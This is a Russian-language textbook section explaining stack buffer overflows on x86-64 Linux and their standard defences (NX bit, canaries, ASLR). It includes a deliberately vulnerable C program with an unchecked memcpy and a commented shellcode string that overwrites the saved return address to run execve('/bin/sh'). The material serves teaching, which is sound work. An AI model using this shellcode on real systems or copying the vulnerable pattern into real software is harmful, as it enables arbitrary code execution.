\section{Переполнение буфера в стеке}
\selectlanguage{russian}

В качестве примера переполнения буфера опишем самую распространённую атаку, направленную на исполнение кода злоумышленника.

В 64-битовой x86-64 архитектуре основное пространство виртуальной памяти процесса из 16-ти эксабайтов ($2^{64}$ байтов) свободно, и только малая часть занята (выделена). Виртуальная память выделяется процессу операционной системой блоками по 4 кБ, называемыми страницами памяти. Выделенные страницы соответствуют страницам физической оперативной памяти или страницам файлов.

Пример выделенной виртуальной памяти процесса представлен в таблице~\ref{tab:virtual-memory}. Локальные переменные функций хранятся в области памяти, называемой стеком.

Приведём пример переполнения буфера в стеке\index{стек}, которое даёт возможность исполнить код для 64-разрядной ОС Linux. Ниже приводится листинг исходной программы, которая печатает расстояние Хэмминга между векторами $b1 = \text{\texttt{0x01234567}}$ и $b2 = \text{\texttt{0x89ABCDEF}}$.

\begin{verbatim}
#include <stdio.h>
#include <string.h>

int hamming_distance(unsigned a1, unsigned a2, char *text,
                     size_t textsize) {
  char buf[32];
  unsigned distance = 0;
  unsigned diff = a1 ^ a2;
  while (diff) {
    if (diff & 1) distance++;
    diff >>= 1;
  }
  memcpy(buf, text, textsize);
  printf("%s: %i\n", buf, distance);
  return distance;
}

int main() {
  char text[68] = "Hamming";
  unsigned b1 = 0x01234567;
  unsigned b2 = 0x89ABCDEF;
  return hamming_distance(b1, b2, text, 8);
}
\end{verbatim}

\begin{table}[!ht]
    \centering
    \caption{Пример структуры виртуальной памяти процесса\label{tab:virtual-memory}}
    \resizebox{\textwidth}{!}{ \begin{tabular}{r|c|}
        \multicolumn{2}{c}{Адрес ~~~~~~~~~~~~~~ Использование} \\
        \cline{2-2}
        \texttt{0x00000000 00000000} & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0040063F} & \multirow{2}{*}{\parbox{6cm}{Исполняемый код, динамические библиотеки}} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00000000 0143E010} & \multirow{2}{*}{Динамическая память} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF A425DF26} & \multirow{2}{*}{Переменные среды} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        & \\
        \cdashline{2-2}
        \texttt{0x00007FFF FFFFEB60} & \multirow{2}{*}{Стек функций} \\
        & \\
        \cdashline{2-2}
        & \\
        & \\
        \texttt{0xFFFFFFFF FFFFFFFF} & \\
        \cline{2-2}
    \end{tabular} }
\end{table}

Вывод программы при запуске:
\begin{verbatim}
$ ./hamming
Hamming: 8
\end{verbatim}

При вызове вложенных функций вызывающая функция выделяет стековый кадр для вызываемой функции в сторону уменьшения адресов. Стековый кадр в порядке уменьшения адресов состоит из следующих частей:
\begin{enumerate}
    \item Аргументы вызова функции, расположенные в порядке уменьшения адреса (за исключением тех, которые передаются в регистрах процессора).
    \item Сохранённый регистр процессора \texttt{rip} внешней функции, также называемый адресом возврата. Регистр процессора \texttt{rip} содержит адрес следующей инструкции для исполнения. При входе во вложенную функцию адрес инструкции текущей функции запоминается в стеке, в регистре записывается новое значение адреса первой инструкции из вложенной функции, а по завершении функции регистр восстанавливается из стека, и, таким образом, исполнение возвращается назад.
    \item Сохранённый регистр процессора \texttt{rbp} внешней функции. Регистр процессора \texttt{rbp} содержит адрес сохранённого регистра \texttt{rbp} в стековом кадре вызывающей функции. Процессор обращается к локальным переменным функций по смещению относительно регистра \texttt{rbp}. При вызове вложенной функции регистр сохраняется в стеке, в регистр записывается текущее значение адреса стека (\texttt{rsp}), а по завершении функции регистр восстанавливается.
    \item Локальные переменные, как правило, расположенные в порядке уменьшения адреса при объявлении новой переменной (порядок может быть изменён в результате оптимизаций и использования механизмов защиты, таких как Stack Smashing Protection в компиляторе GCC).
\end{enumerate}

Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выровнены по границе параграфа в 16 байтов, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе имеется ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, есть возможность записать вместо сохранённого значения регистра \texttt{rip} новое. В результате по завершении данной функции исполнение начнётся с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохранённого регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис.~\ref{fig:stack-overflow} приведены исходный стек и стек с переполненным буфером, из-за которого записалось новое сохранённое значение \texttt{rip}.

\begin{figure}[!ht]
	\centering
	
\includegraphics[width=0.95\textwidth]{pic/stack-overflow}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00";                 //   rip=0x7fffffffeac0
  ...
  hamming_distance(b1, b2, text, 68);
  return 0;
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0, 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции, а в другие регистры процессора -- аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис.~\ref{fig:stack-overflow} приведён стек с переполненным буфером, в котором записалось новое сохранённое значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека неизвестны, поэтому злоумышленник угадывает предполагаемый адрес стека. В начале исполняемого кода создаётся массив из операций \texttt{nop} с надеждой на то, что предполагаемое значение стека, то есть требуемый адрес \texttt{rip}, попадёт на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

В результате переполнения буфера в примере по завершении функции \texttt{hamming\_distance()} начнёт исполняться инструкция с адреса строки \texttt{buf}, то есть заданный код.


\subsection{Защита}

Лучший способ защиты от атак переполнения буфера -- создание программного кода со слежением за размером данных и длиной буфера. Однако ошибки всё равно происходят. Существует несколько стандартных способов защиты от исполнения кода в стеке в архитектуре x86 (x86-64).

\begin{enumerate}
	\item Современные 64-разрядные x86-64 процессоры включают поддержку флагов доступа к страницам памяти. В таблице виртуальной памяти, выделенной процессу, каждая страница имеет набор флагов, отвечающих за защиту страниц от некорректных действий программы:
		\begin{itemize}
		\item флаг разрешения доступа из пользовательского режима -- если флаг не установлен, то доступ к данной области памяти возможен только из режима ядра;
		\item флаг запрета записи -- если флаг установлен, то попытка выполнить запись в данную область памяти приведёт к возникновению исключения;
		\item флаг запрета исполнения\index{бит запрета исполнения} (NX-Bit, No eXecute Bit в терминологии AMD; XD-Bit, Execute Disable Bit в терминологии Intel; DEP, Data Execution Prevention -- соответствующая опция защиты в операционных системах) -- если флаг установлен, то при попытке передачи управления на данную область памяти возникнет исключение. Для совместимости со старым программным обеспечением есть возможность отключить использование данного флага на уровне операционной системы целиком или для отдельных программ.
	\end{itemize}
	Попытка выполнить операции, которые запрещены соответствующими настройками виртуальной памяти, вызывает ошибку сегментации (\langen{segmentation fault, segfault}).

    \item Второй стандартный способ -- вставка проверочных символов (\langen{canaries, guards}) после массивов и в конце стека и их проверка перед выходом из функции. Если произошло переполнение буфера, программа аварийно завершится. Данный способ защиты реализован с помощью модификации конечного кода программы во время компиляции\footnote{См. опции \texttt{-fstack-protector} для GCC, \texttt{/GS} для компиляторов от Microsoft и другие.}, его нельзя включить или отключить без перекомпиляции программного обеспечения.

    \item Третий способ -- рандомизация адресного пространства (\langen{address space layout randomization, ASLR}), то есть случайное расположение стека, кода и~т.\,д. В настоящее время используется в большинстве современных операционных систем (Android, iOS, Linux, OpenBSD, macOS, Windows). Это приводит к маловероятному угадыванию адресов и значительно усложняет использование уязвимости.
\end{enumerate}

\subsection{Другие атаки с переполнением буфера}

Почти любую возможность для переполнения буфера в стеке или динамической памяти можно использовать для получения критической ошибки в программе из-за обращения к адресам виртуальной памяти, страницы которых не были выделены процессу. Следовательно, можно проводить атаки отказа в обслуживании (\langen{Denial of Service (DoS) attacks}).

Переполнение буфера в динамической памяти, в случае хранения в ней адресов для вызова функций, может привести к подмене адресов и исполнению другого кода.

В описанных DoS-атаках NX-бит не защищает систему.
